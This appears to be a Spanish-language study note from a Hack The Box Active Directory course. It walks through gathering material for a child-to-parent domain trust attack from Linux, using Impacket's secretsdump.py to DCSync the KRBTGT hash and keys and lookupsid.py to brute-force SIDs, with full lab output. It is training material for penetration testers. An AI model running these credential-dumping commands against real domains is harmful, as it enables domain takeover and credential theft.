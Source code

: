 ----------
- Tags: #dcsync #riseChild
-------------
También podemos realizar el ataque mostrado en el apartado anterior desde un host de ataque Linux. Para hacerlo, aún necesitaremos recopilar los mismos fragmentos de información:

- El hash KRBTGT para el dominio secundario
- El SID del dominio secundario
- El nombre de un usuario objetivo en el dominio secundario (¡no es necesario que exista!)
- El FQDN del dominio secundario
- El SID del grupo de administradores empresariales del dominio raíz.

Una vez que tengamos el control completo del dominio secundario, `LOGISTICS.INLANEFREIGHT.LOCAL`, podemos usar `secretsdump.py` para DCSync y obtener el hash NTLM para la cuenta KRBTGT.
#### Realizando DCSync con secretsdump.py

```shell-session
lilscott6x9@htb[/htb]$ secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt

Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9d765b482771505cbe97411065964d5f:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:d9a2d6659c2a182bc93913bbfa90ecbead94d49dad64d23996724390cb833fb8
krbtgt:aes128-cts-hmac-sha1-96:ca289e175c372cebd18083983f88c03e
krbtgt:des-cbc-md5:fee04c3d026d7538
[*] Cleaning up...
```

A continuación, podemos usar [lookupsid.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/lookupsid.py) del kit de herramientas Impacket para realizar fuerza bruta de SID para encontrar el SID del dominio secundario. En este comando, cualquier cosa que especifiquemos para la dirección IP (la IP del controlador de dominio en el dominio secundario) se convertirá en el dominio de destino para una búsqueda de SID. La herramienta nos devolverá el SID del dominio y los RID de cada usuario y grupo que podrían usarse para crear su SID en el formato `DOMAIN_SID-RID`. Por ejemplo, en el resultado siguiente, podemos ver que el SID del usuario `lab_adm` sería `S-1-5-21-2806153819-209893948-922872689-1001`.
#### Realizar fuerza bruta SID usando lookupsid.py

```shell-session
lilscott6x9@htb[/htb]$ lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 

Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - Copyright 2021 SecureAuth Corporation

Password:
[*] Brute forcing SIDs at 172.16.5.240
[*] StringBinding ncacn_np:172.16.5.240[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-2806153819-209893948-922872689
500: LOGISTICS\Administrator (SidTypeUser)
501: LOGISTICS\Guest (SidTypeUser)
502: LOGISTICS\krbtgt (SidTypeUser)
512: LOGISTICS\Domain Admins (SidTypeGroup)
513: LOGISTICS\Domain Users (SidTypeGroup)
514: LOGISTICS\Domain Guests (SidTypeGroup)
515: LOGISTICS\Domain Computers (SidTypeGroup)
516: LOGISTICS\Domain Controllers (SidTypeGroup)
517: LOGISTICS\Cert Publishers (SidTypeAlias)
520: LOGISTICS\Group Policy Creator Owners (SidTypeGroup)
521: LOGISTICS\Read-only Domain Controllers (SidTypeGroup)
522: LOGISTICS\Cloneable Domain Controllers (SidTypeGroup)
525: LOGISTICS\Protected Users (SidTypeGroup)
```